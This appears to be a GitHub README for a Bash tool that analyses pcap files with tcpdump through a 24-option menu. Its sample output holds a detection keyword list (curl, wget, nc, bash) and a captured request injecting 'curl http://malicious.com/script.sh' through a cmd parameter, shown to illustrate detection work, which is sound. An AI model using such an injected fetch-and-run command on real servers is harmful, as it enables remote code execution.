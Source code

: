 # Traffic-Analysis-Tools
Better way to analyze traffic
# Traffic Analysis Tools 🚦🔍

This repository contains a collection of tools to help analyze and visualize network traffic captured in PCAP files. These tools aim to provide an intuitive interface and a range of analysis options for enhanced understanding of network behavior.

## Table of Contents 📝
- [Overview](#overview-)
- [Tools](#tools-)
  - [tCpDump.sh](#tcpdumpsh-)
- [Prerequisites](#prerequisites-🛠️)
- [Installation](#installation-⚙️)
- [Usage](#usage-🚀)
- [Features](#features-✨)
- [Contributing](#contributing-🤝)
- [License](#license-📜)
  
## Tools 🧰

### tCpDump.sh 📊
`tCpDump.sh` is an interactive Bash script that streamlines the analysis of pcap files using `tcpdump`. It provides a user-friendly menu with 24 analysis options, enabling you to:
- List source and destination IPs.
- Analyze conversation statistics (sequence and acknowledgment numbers).
- Detect packet retransmissions and anomalous traffic.
- Visualize conversation traces with Chart.js.
- Search for suspicious commands ( `curl`, `wget`) in payloads.

## Prerequisites 🛠️
To use `tCpDump.sh`, ensure the following are installed:
- **tcpdump**: Required for analyzing pcap files.
  - Install on Debian/Ubuntu: `sudo apt-get install tcpdump`
  - Install on Red Hat/CentOS: `sudo yum install tcpdump`
- **geoip-bin** (optional): Enables GeoIP analysis for mapping IPs to locations.
  - Install on Debian/Ubuntu: `sudo apt-get install geoip-bin`
- A Unix-like system with Bash ( Linux, macOS, WSL on Windows).
- PCAP files (`.pcap` or `.pcapng`) for analysis.

## Installation ⚙️
1. Clone the repository:
   ``` 
   git clone https://github.com/your-username/Traffic-Analysis-Tools.git
   cd Traffic-Analysis-Tools
   ```
2 Make the script executable:

Make the script executable:

  ```
   chmod +x tCpDump.sh
   ```

Ensure tcpdump is installed (see Prerequisites).
(Optional) Install geoip-bin for GeoIP support.
Usage 🚀
Run the script and follow the interactive menu:
  ```
   ./tCpDump.sh
  ```
Example Workflow
Select Option 1 to list available pcap files in the current directory.
Select Option 2 to analyze a pcap file (capture.pcap).
Choose from 24 analysis options, such as:
Option 2: Display source and destination IP addresses.
Option 22: Visualize conversation trace (outputs Chart.js config).
Option 24: Search for suspicious commands like curl or wget.
Sample Output
```
Copy
$ ./tCpDump.sh
Please choose an option:
1. List available pcap files
2. Analyze a pcap file
3. Show tcpdump man page (related to pcap)
4. Exit

Option: 2
Enter the pcap file name: capture.pcap
Choose an analysis option:
...
24. Search for suspicious commands
Option: 24
Searching for suspicious commands (curl, wget, nc, bash)...
192.168.1.10.12345 > 93.184.216.34.80: Flags [P.], seq 1:200, ack 1, win 512
GET /?cmd=curl%20http://malicious.com/script.sh HTTP/1.1
Host: example.com
--
Note: Found commands may appear in User-Agent strings, URLs, or payloads. Review context for suspicion.
```

